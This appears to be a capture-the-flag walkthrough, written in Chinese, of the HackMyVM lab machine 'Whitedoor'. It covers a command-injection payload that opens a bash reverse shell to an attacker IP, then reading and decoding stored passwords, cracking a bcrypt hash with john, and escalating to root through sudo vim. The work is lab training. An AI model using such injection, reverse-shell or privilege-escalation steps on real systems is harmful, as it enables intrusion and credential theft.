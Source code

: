 # Whitedoor

2025.03.17 https://hackmyvm.eu/machines/machine.php?vm=Whitedoor

[video](https://www.bilibili.com/video/BV1MPQvYUEdv/?spm_id_from=333.1387.homepage.video_card.click&vd_source=aed2f374c732513d2e535afafb1fd2ec)

## Ip

192.168.5.40

## Scan

```
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

ftp 没有用信息。

80 web 上可以执行命令，但是需要 ls 开头，这里使用;分割命令:

```
ls /etc/;/bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.5.3/8888 0>&1"
```

拿到 web shell。

枚举发现其他普通用户密码：

```
www-data@whitedoor:/home/whiteshell$ cat /home/whiteshell/Desktop/.my_secret_password.txt
whiteshell:VkdneGMwbHpWR2d6VURSelUzZFBja1JpYkdGak5Rbz0K
```

su 切换到 whiteshell , 对 VkdneGMwbHpWR2d6VURSelUzZFBja1JpYkdGak5Rbz0K 进行 2 次 base64 解码得到: Th1sIsTh3P4sSwOrDblac5

发现另外一个用户的密码哈希:

```
whiteshell@whitedoor:/home/Gonzalo/Desktop$ cat /home/Gonzalo/Desktop/.my_secret_hash
$2y$10$CqtC7h0oOG5sir4oUFxkGuKzS561UFos6F7hL31Waj/Y48ZlAbQF6
```

john 解密哈希得到密码 qwertyuiop 切换到 Gonzalo 用户。

先拿到 user flag:

```
Gonzalo@whitedoor:~$ cat Desktop/user.txt
Y0uG3tTh3Us3RFl4g!!
```

sudo 显示 vim 直接提权到 root:

```
Gonzalo@whitedoor:~$ sudo -l
Matching Defaults entries for Gonzalo on whitedoor:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User Gonzalo may run the following commands on whitedoor:
    (ALL : ALL) NOPASSWD: /usr/bin/vim
Gonzalo@whitedoor:~$ sudo /usr/bin/vim

root@whitedoor:/home/Gonzalo# cd /root
root@whitedoor:~# ls
root.txt
root@whitedoor:~# cat root.txt
Y0uAr3Th3B3sTy0Ug3Tr0oT!!
```

